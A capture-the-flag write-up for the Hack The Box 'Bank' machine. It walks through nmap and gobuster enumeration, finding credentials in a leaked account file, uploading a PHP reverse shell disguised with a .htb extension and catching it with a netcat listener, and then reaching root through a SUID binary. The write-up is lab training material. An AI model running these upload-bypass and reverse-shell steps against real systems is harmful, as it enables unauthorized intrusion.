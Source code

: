 # (Linux) [Easy] Bank
## Author: David Chaparro - davidch09

#### Requirements (Not an expert, only know the concept)

##### Topics
+ Linux
+ Port/Web enumeration

##### Tools
+ nmap
+ gobuster
+ netcat

##### Languages / Ciphering
+ bash
+ php

## Solution

### Ports Enumeration

We start the port enumeration, with the `nmap` command:

```sh
sudo nmap -p- -sS -Pn --min-rate 5000 -vvv -n -oG allPorts 10.129.32.218
```

We discover these open ports:

```java
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
53/tcp open  domain  syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

We see that a web service is running in the port `80`, a DNS service in the port `53` and a SSH service in the port `22`


Now to detect the name and version of the services, we use this command:

```sh
sudo nmap -p 22,53,80 -Pn -sVC --min-rate 5000 -oN puertos.txt 10.129.32.218
```

```java
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### `nmap` parameters explanation
+ -p- : Scans all possible ports (1 - 65535)
+ -sS : (stealth Scan) Sends SYN packets and waits for a response, it's faster and stealthier than a full TCP scan
+ -Pn : no `ping` command is performed, so the scan was doing without checking if the machine responds to ICMP pings
+ --min-rate 5000 : Sets a minimum rate of `5000` packets per second (the more packets, the faster, but noisier and more detectable)
+ -vvv : More verbosity, you can see the ports discovering in the process
+ -n : Skips DNS resolution, speeding up the scan
+ -oG `"allPorts"` : Saves the scan results in a grepable format (easy to filter and use the `grep` command)
+ -oN `"puertos.txt"` : Saves the scan results in a normal format (easy to read)

### Web enumeration

In the port `80` we see the default apache index page:

![1](./assets/1.png)

So after do fuzzing, we try the default domain guess of HTB machines, in this case we try `"bank.htb"`:

![2](./assets/2.png)

And we get a `login.php` page! (we have to put pair `ip : domain` in the file `/etc/hosts`), And after try some default credentials and analyze the page source code, let's do directory enumeration with `gobuster`:

```sh
gobuster dir -u http://bank.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o fuzzWebDir.txt -t 50 -x php
```

#### parameters explanation
+ dir : This is the option to execute a `direction discovery` in `gobuster`
+ -u : Sets the ip of the we service
+ -w : Sets the wordlist dictionary to use in the bruteforcing process
+ -o : Save the content of the directory discovery
+ -t : Number of current threads the process will use (default: 10)
+ -x php : Puts an `".php"` at the end of each attempt (plus the default one)

```java
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bank.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/index.php            (Status: 302) [Size: 7322] [--> login.php]
/support.php          (Status: 302) [Size: 3291] [--> login.php]
/login.php            (Status: 200) [Size: 1974]
/uploads              (Status: 301) [Size: 305] [--> http://bank.htb/uploads/]
/assets               (Status: 301) [Size: 304] [--> http://bank.htb/assets/]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/inc                  (Status: 301) [Size: 301] [--> http://bank.htb/inc/]
/.php                 (Status: 403) [Size: 279]
/server-status        (Status: 403) [Size: 288]
/balance-transfer     (Status: 301) [Size: 314] [--> http://bank.htb/balance-transfer/]
Progress: 441120 / 441122 (100.00%)
```

We found interesting things, we have an `uploads` directory (this could mean that we have to upload a malicious file) and an `assets` directory when we find some css and js files, but there is nothing interesting there. And of course the `balance-transfer` directory, when we can see a lot of `.acc` files, and after filter by date, time and size (you can filter it by clicking on the button columns at the top), we can see that there is one file with a big difference on the size (there is only one that is 257 Bytes)

![3](./assets/3.png)

![4](./assets/4.png)

We got some credentials!, but after tried them in the `SSH` and failed, we entered in the page login and got in: 

![5](./assets/5.png)

After some enumeration, we can see kind of a hint in the source code in the `support.php` page:

![6](./assets/6.png)

Let's try to submit a malicious reverse shell `.php` file, I like to use the pentestmonkey's php reverse shell: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php  , then we must change the IP address, the port and the extension of the file (instead of `.php`, we have to use `.htb`), and before click it or open it so the server can read it, we have to be listening in another port with `nc`:

```sh
nc -nlvp 1234
```

![7](./assets/7.png)
And we got a shell!, after sanitized it (with this process: https://uqbarun.github.io/blog/fundamentos/2023/11/19/sanitizacion-de-tty-por-conexion-remota), we can read the user flag:

![8](./assets/8.png)

### Privileged escalation

We start with some enumeration like:

```sh
www-data@bank:/$sudo -l
```

But it ask us for a password, let's try listing files with SUID or SGID bits set (that we can execute) with the command:

```sh
www-data@bank:/$ find / -type f -perm -04000 -ls 2>/dev/null
```

And we find this interesting file:

```sh
 72753  112 -rwsr-xr-x   1 root     root       112204 Jun 14  2017 /var/htb/bin/emergency
```

It seems to be not that human readable, let's execute to see what happen:

![10](./assets/10.png)

We are root!, so let's read the root flag in the `/root` directory:

![9](./assets/9.png)

The easiest priv escalation I've ever seen! 🐇





